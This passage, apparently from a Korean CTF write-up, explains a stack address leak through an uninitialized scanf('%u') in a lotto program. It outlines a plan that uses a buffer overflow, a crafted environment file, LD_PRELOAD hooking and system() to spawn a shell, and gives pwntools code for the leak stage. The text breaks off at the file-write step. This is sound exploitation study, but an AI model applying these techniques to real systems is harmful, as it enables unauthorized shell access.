 scanf("%u") 로 입력을 받는데, character 문자열을 입력으로 넣으면 메모리에는 아무런 입력도 들어가지 않는다.

따라서 기존 메모리에 있는 쓰레기값(주소값)이 0x2C보다 크면 그 값을 출력해주게된다.

## 4. Exploit 전략

Exploit을 하기 위한 전략.
1. stack leak을 통해 주소값 구하기
2. bof를 통해 환경변수 영역을 덮는다.
3. `/proc/self/environ` 파일을 복사해 원하는 내용의 파일 만들기
4. 특정 함수 호출을 `/bin/sh` 호출로 바꾸는 라이브러리 파일을 만들기.
5. LD_PRELOAD를 지정해주고 envp에 해당 문자열 주소 넣기
6. `system("/usr/bin/clear")` 를 호출하여 변경된 환경변수로 실행될 때 함수를 후킹해서 shell 획득

### 4.1. Stack leak
먼저, stack leak을 시도한다. 디버깅을 통해 확인 한 결과, `lotto`를 2번 실행하면 3번째 입력에서 스택 주소값이 leak된다.

```python
from pwn import *

def lotto(numbers: list, leak=False):
    info(p.recvuntil(b'6) exit'))
    p.sendline(b'3')
    info(p.recvuntil(b'|  |  |  |  |  |  |\n===================\n'))
    if not leak:
        for number in numbers:
            p.sendline(number)
    else:
        p.sendline(b'A')
        p.sendline(b'A')
        p.sendline(b'A')
        line = p.recvline()
        leaked_low = int(line.split()[0])
        p.sendline(b'1')
        p.sendline(b'A')
        line = p.recvline()
        leaked_high = int(line.split()[0])
        for number in numbers:
            p.sendline(number)
        return (leaked_high << 32) | leaked_low

p = remote(HOST, PORT)

lotto([b'1', b'2', b'3', b'4', b'5', b'6'])
leaked = lotto([b'4', b'5', b'6'], leak=True)
```

단, 주의할 점은 `%u`가 4바이트 출력이기 때문에 하위 4바이트씩 leak이 가능하고, 2번 leak하면 전체 주소가 leak된다.

### 4.2. File write
